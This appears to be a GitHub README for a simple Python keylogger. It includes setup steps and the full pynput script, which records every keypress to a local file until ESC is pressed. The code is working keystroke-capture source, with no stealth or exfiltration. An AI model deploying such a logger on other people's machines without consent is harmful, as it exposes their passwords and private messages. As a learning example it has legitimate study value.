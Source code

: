 # Keylogger

A simple keylogger implemented using the `pynput` library to log keyboard events to a text file.

## Features

- Logs alphanumeric keys.
- Logs special keys like space, enter, and tab.
- Stops logging when the escape key (ESC) is pressed.

## Dependencies

- `pynput`

## Installation

1. Clone the repository:
    ```bash
    git clone <repository_url>
    ```
2. Navigate to the project directory:
    ```bash
    cd <repository_name>
    ```
3. Install the required Python packages:
    ```bash
    pip install pynput
    ```

## Usage

1. Run the script:
    ```bash
    python keylogger.py
    ```
2. The keylogger will start logging keys to `keylog.txt` in the same directory as the script.
3. Press the ESC key to stop the keylogger.

## File

- `keylogger.py`

```python
from pynput import keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(str(key.char))
    except AttributeError:
        # Handle special keys like space, enter, etc.
        if key == keyboard.Key.space:
            with open(log_file, "a") as f:
                f.write(' ')
        elif key == keyboard.Key.enter:
            with open(log_file, "a") as f:
                f.write('\n')
        elif key == keyboard.Key.tab:
            with open(log_file, "a") as f:
                f.write('\t')
        else:
            with open(log_file, "a") as f:
                f.write(f'[{key.name}]')

def on_release(key):
    if key == keyboard.Key.esc:
        # Stop listener
        return False

# Collect events until released
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
